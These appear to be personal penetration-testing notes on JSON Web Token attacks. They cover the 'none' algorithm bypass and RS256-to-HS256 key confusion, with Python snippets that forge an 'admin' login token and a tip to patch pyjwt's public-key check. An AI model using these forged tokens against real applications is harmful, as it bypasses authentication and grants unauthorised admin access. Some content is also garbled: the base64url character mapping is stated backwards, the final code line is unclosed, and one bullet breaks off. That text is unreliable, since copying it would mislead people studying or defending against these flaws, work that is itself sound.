 # jwt 
Jwt.io can be used to generate tokens with a given secret. 

## jwt reading
https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2019/january/jwt-attack-walk-through/
- cool cli based walkthrough; with a splash of python
https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/

## jwt format
base64urlencode(json header).base64urlencode(json payload).base64urlencode(signature)
- note that  base64 != base64urlencoded
- In the  jwt, base64 "+" becomes "-" , "_" => "/" and "=" is dropped

## jwt security
Some implementations fail to disable use of "none" algorithm; this results 
in a user's ability to send arbitrary requests because the application won't
verify them.

## exploting
- always: check if an app will accept a "none" algorithm.
- always: check the order of your tokens if you're getting errors. Some
implementations will be pickey about this, for example if we have something
like : {"typ":"JWT","alg":"None"}, that != {"alg":"None","typ":"JWT"}
- if: you're getting errors, with none,

## python script to accomplish the above
Note python package "jwt" != "pyjwt", but iirc both result in needing to import
"jwt", which can then result in some confusion. For the below, pyjwt was used.

```python
#!/usr/bin/env python3
import time
import jwt
encoded = jwt.encode({'login': 'admin',"iat":int(time.time())}, None, algorithm=None)
print(encoded)
```

## trying to break RS256 algorithms, by sending JWT with HS256 alg,  signed with
## public key from server
# it's just a basic string check ,we can bypass this by commenting out
# the relevent lines in :*/lib/python3.6/site-packages/jwt/algorithms.py
# grep or search for PUBLIC
encoded = jwt.encode({'login':'admin'},open('public','rb').read(),algorithm='HS256'
